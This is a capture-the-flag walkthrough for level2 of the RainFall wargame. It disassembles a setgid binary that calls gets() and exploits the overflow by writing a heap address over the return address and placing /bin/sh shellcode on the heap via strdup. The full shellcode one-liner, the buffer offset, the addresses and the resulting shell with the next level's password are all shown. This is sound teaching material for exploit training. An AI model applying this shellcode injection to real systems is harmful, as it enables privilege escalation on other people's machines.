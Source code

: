 # level2

## Hint

When we log into the machine as `level2`, we notice a binary that segfaults when we run it without a parameter:

```shell-session
level2@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2
level2@RainFall:~$ ./level2
coucou
coucou
```

We notice that the `guid` bit is set, so the executable gets the rights of its group owners granted when it is executed, and conveniently enough the group in question is our target for the current level.

That being said, it seems we need to look into the binary in order to try to understand what input it's awaiting.

## gdb

### getting to know the binary

```gdb
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0804853f <+0>:	push   ebp
   0x08048540 <+1>:	mov    ebp,esp
   0x08048542 <+3>:	and    esp,0xfffffff0
   0x08048545 <+6>:	call   0x80484d4 <p>            <----- Call to function p
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
End of assembler dump.
gdb-peda$ disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   ebp
   0x080484d5 <+1>:	mov    ebp,esp
   0x080484d7 <+3>:	sub    esp,0x68
   0x080484da <+6>:	mov    eax,ds:0x8049860
   0x080484df <+11>:	mov    DWORD PTR [esp],eax
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>  <----- Call to fflush
   0x080484e7 <+19>:	lea    eax,[ebp-0x4c]
   0x080484ea <+22>:	mov    DWORD PTR [esp],eax
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>    <----- Call to gets
   0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:	and    eax,0xb0000000          <----- Logical binary operation
   0x08048500 <+44>:	cmp    eax,0xb0000000
   0x08048505 <+49>:	jne    0x8048527 <p+83>        <----- Conditional jump to p+83
   0x08048507 <+51>:	mov    eax,0x8048620
   0x0804850c <+56>:	mov    edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:	mov    DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:	mov    DWORD PTR [esp],eax
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>  <----- Call to printf
   0x0804851b <+71>:	mov    DWORD PTR [esp],0x1
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>   <----- Call to exit
   0x08048527 <+83>:	lea    eax,[ebp-0x4c]
   0x0804852a <+86>:	mov    DWORD PTR [esp],eax
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>    <----- Call to puts
   0x08048532 <+94>:	lea    eax,[ebp-0x4c]
   0x08048535 <+97>:	mov    DWORD PTR [esp],eax
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>  <----- Call to strdup
   0x0804853d <+105>:	leave
   0x0804853e <+106>:	ret
End of assembler dump.
```

There seems to be a lot going on here.

Indeed there could be several ways for us to make this executable open a shell for us:
1. use a `ret2libc` exploit by injecting a shell code that would call a `/bin/sh` from within the available symbols in the binary.
2. use a `ROP` (return oriented programming) exploit, in order to carefully sequence a series of `RET` operation with addresses, that will allow the cherry picking of instructions to execute.
3. Inject a shellcode on the heap, and execute it thanks to a RIP register overwrite

We will try the third one.

### Heap based shellcode 

We know this is possible because there is a function call (strdup) that will allocate on the HEAP a chunk of data that we may very well have tailored to call the wanted functions from the libc.

To do that we first need to determine the size of the buffer.

Using our favourite [buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), we can determine that size.

![](Ressources/pattern_generator_demonstration.png)

We then use the address returned by gdb in order to determine the size of the buffer

![](Ressources/pattern_generator_demonstration_size.png)

The tool tells us that the buffer indeed had a size of 80.

Now that we have the size of the buffer, as for the previous exercise, we must find the address to overwrite the Return Instruction Pointer register with.

This will allow us to send the execution to where we will have allocated our malicious shellcode

Obviously, that address will be the one at the start of the HEAP, since that's where our shellcode will be allocated by the call to `strdup`.

So how do we find the start address of the that chunk of HEAP memory ?
Easily enough: `info proc mappings`, though obviously enough, we need to set a breakpoint AFTER the call to the HEAP-allocating function `strdup`.

```gdb
gdb-peda$ b *p+105
Breakpoint 1 at 0x804853d
[...]
[-------------------------------------code-------------------------------------]
   0x8048532 <p+94>:	lea    eax,[ebp-0x4c]
   0x8048535 <p+97>:	mov    DWORD PTR [esp],eax
   0x8048538 <p+100>:	call   0x80483e0 <strdup@plt>
=> 0x804853d <p+105>:	leave
   0x804853e <p+106>:	ret
   0x804853f <main>:	push   ebp
   0x8048540 <main+1>:	mov    ebp,esp
   0x8048542 <main+3>:	and    esp,0xfffffff0
[...]
gdb-peda$ info proc mappings
process 7541
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/user/level2/level2
	 0x8049000  0x804a000     0x1000        0x0 /home/user/level2/level2
	 0x804a000  0x806b000    0x21000        0x0 [heap]     <---- START ADDRESS OF HEAP
	0xb7e2b000 0xb7e2c000     0x1000        0x0
	0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd2000 0xb7fd5000     0x3000        0x0
	0xb7fd9000 0xb7fdd000     0x4000        0x0
	0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
	0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
	0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
	0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
gdb-peda$
```

Okay now, last part before we can say we have officially hacked that binary: the shellcode.

Our shellcode must be one to call a `/bin/sh` binary to open a shell for us.
There are plenty available on [shellstorm](http://shell-storm.org/), so it doesn't really matter which one we take as long as it's at least smaller that 80 bytes. (because we need room for the HEAP address we have found before) 

Our shellcode is found [here](http://shell-storm.org/shellcode/files/shellcode-811.php) and it is 28 bytes long. That means that for the overflow to happen we must concatenate a 52 byte padding to the shell code, and then the address we mentionned before.

```shell-session
level2@RainFall:~$
(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'thisisjustbutapaddingtoguaranteethatwehaveanoverflow' + '\x08\xa0\x04\x08'"; cat -)>
1Ph//shh/bin�°
              ̀1@̀thisisjustbutapaddingtoguaranteethveanoverflow
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```


